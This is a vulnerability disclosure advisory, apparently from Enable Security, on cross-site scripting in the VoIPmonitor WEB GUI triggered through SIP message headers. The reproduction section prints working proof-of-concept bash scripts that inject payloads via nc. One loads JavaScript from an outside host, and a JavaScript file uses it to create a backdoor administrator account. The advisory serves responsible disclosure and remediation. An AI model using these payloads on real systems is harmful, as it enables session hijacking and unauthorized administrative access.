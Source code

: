 # VoIPmonitor WEB GUI vulnerable to Cross-Site Scripting via SIP messages

- Fixed versions: VoIPmonitor WEB GUI 24.56
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-02-voipmonitor-gui-xss
- VoIPmonitor Security Advisory: none, changelog references fixes at https://www.voipmonitor.org/changelog-gui?major=5
- Tested vulnerable versions: 24.53, 24.54, 24.55
- Timeline:
    - Report date: 2021-02-10
	- Triaged: 2021-02-12
	- First fixes available: 2021-02-15
    - Fixes to actually address XSS: 2021-02-22
	- VoIPmonitor release with fix: 2021-02-22
	- Enable Security advisory: 2021-03-15

## Description

Multiple Cross-Site Scripting vulnerabilities were observed in the VoIPmonitor WEB GUI. These vulnerabilities can be exploited by sending SIP messages towards hosts monitored by VoIPmonitor. During our tests, the following areas were affected:

- "CDR" section
    - listing view via the `User-Agent`, `From` and `Call-ID` headers
    - Share CDR

- "Active calls" section
    - listing view via the `User-Agent` and `From` headers

- "SIP MESSAGES" section
    - listing view via the `User-Agent` and `From` headers
    - detailed record view via the `User-Agent`, `Call-ID` and `Content-Type` headers

- "SIP REGISTER" section
    - listing view via the `User-Agent` header, and `Authorization` username

- "SIP Opt., Subsc., Notify" section
    - listing view via the `User-Agent` header
    - detailed record view via `Call-ID` and caller name

- "Live sniffer" section
    - listing view via the `Call-ID`

## Impact

Abuse of this vulnerability allows attackers to perform operations on behalf of VoIPmonitor WEB GUI users, hijack sessions or create arbitrary administrative accounts in the WEB GUI.

Due to the nature of the cross-site scripting vulnerability, the attacker does not need authentication to exploit this vulnerability. However, to trigger the injected malicious JavaScript, an administrator has to visit to one of the GUI screens: "CDR", "SIP MESSAGES", "SIP REGISTER" or "SIP Opt., Subsc., Notify".

## How to reproduce the issue

In this section we will demonstrate how to abuse this vulnerability via the REGISTER message.

Run the following bash script, replacing the target (`demo.sipvicious.pro`) with the hostname/IP of a machine that is being monitored by VoIPmonitor:

```bash
payload="REGISTER sip:demo.sipvicious.pro SIP/2.0\r\n"
payload+="Via: SIP/2.0/UDP 192.168.1.119:46896;rport;branch=z9hG4bK-X\r\n"
payload+="Max-Forwards: 70\r\n"
payload+="From: <sip:002@demo.sipvicious.pro>;tag=ZB1fPjdIHA6RmaNw\r\n"
payload+="To: <sip:002@demo.sipvicious.pro>\r\n"
payload+="Call-ID: C15AfnWADaCSBH4O\r\n"
payload+="CSeq: 1 REGISTER\r\n"
payload+="Contact: <sip:002@192.168.1.119:48760;transport=udp>\r\n"
payload+="User-Agent: <img src=a onerror=alert(1)>\r\n"
payload+="Content-Type: text/plain\r\n"
payload+="Content-Length: 0\r\n\r\n"
echo -e -n $payload | nc -u demo.sipvicious.pro 5060
```

Then browse to the "SIP REGISTER\failed" section and observe that an alert box with value `1` is shown.

![XSS via failed REGISTER message](screenshots/register-failed-alert.png)

To demonstrate a more complex and dangerous example, host the following JavaScript file on a public facing web server and name it `voipm-xss.js`.

```javascript
var username='h3x0r';
var password='h3x0r-l33t-passwd';

$.post('php/model/sql.php', {
    task: 'CREATE',
    module: 'user_admin',
    taskParams: JSON.stringify({
        "keyField": "id",
        "data": {
          "username": username,
          "name": username,
          "password": password,
          "delete2fa_sec": 0,
          "missing_sec": "not defined",
          "req_2fa": false,
          "email": "",
          "is_admin": true,
        }
      }),
    username: username ,
    name: username ,
    password: password ,
    delete2fa_sec: '0' ,
    email: '' ,
    is_admin: 'on' ,
    can_audit: '0' ,
    note: '' ,
    blocked_reason: '' ,
    max_bad_login_attempt: '' ,
    password_expiration_days: '' ,
    enable_login_ip: '' ,
    ip: '' ,
    number: '' ,
    domain: '' ,
    vlan: ''}
);
```

Then run the following bash script by replacing the script URL to the hosted JavaScript file:

```bash
JSURL="//h3x.fun/voipmonitor/xss.js"

payload='REGISTER sip:demo.sipvicious.pro SIP/2.0\r\n'
payload+='Via: SIP/2.0/UDP 192.168.1.119:46896;rport;branch=z9hG4bK-X\r\n'
payload+='Max-Forwards: 70\r\n'
payload+='From: <sip:002@demo.sipvicious.pro>;tag=ZB1fPjdIHA6RmaNw\r\n'
payload+='To: <sip:002@demo.sipvicious.pro>\r\n'
payload+='Call-ID: C15AfnWADaCSBH4O\r\n'
payload+='CSeq: 1 REGISTER\r\n'
payload+='Contact: <sip:002@192.168.1.119:48760;transport=udp>\r\n'
payload+='User-Agent: <img src=a onerror="'
payload+='var d=document,s=d.createElement`script`;'
payload+="s.src='$JSURL',"
payload+='d.querySelector`p`.appendChild(s)">\r\n'
payload+='Content-Type: text/plain\r\n'
payload+='Content-Length: 0\r\n\r\n'
echo -e -n $payload | nc -u demo.sipvicious.pro 5060
```

Browse to the "SIP REGISTER\failed" screen, refreshing the listing if required, and browse to the "Users & Audit\Users" screen. Notice that a new user has been created.

![JavaScript injected via User-Agent, to create backdoor Admin account](screenshots/register-failed-script-injection.png)

![Admin account created via XSS](screenshots/admin-created-via-xss.png)

Same exercise can be done against the other affected screens, including the CDR record listing.

## Solution and recommendations

To address this issue, we recommend upgrading to the latest fixed version of VoIPmonitor GUI.

We recommended the following to the vendor:

> Values that are user controlled should be correctly encoded before being rendered in the browser. Additionally, JSON output should have the `Content-Type` header of JSON rather than `text/html`.

> These vulnerabilities seem to exist throughout the whole web application so we suggest that a thorough exercise should be carried out to identify any other potential Cross-Site scripting issues in sections which have not been identified in our report.

## Acknowledgements

Enable Security would like to thank Martin Vit and the developers at VoIPmonitor for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

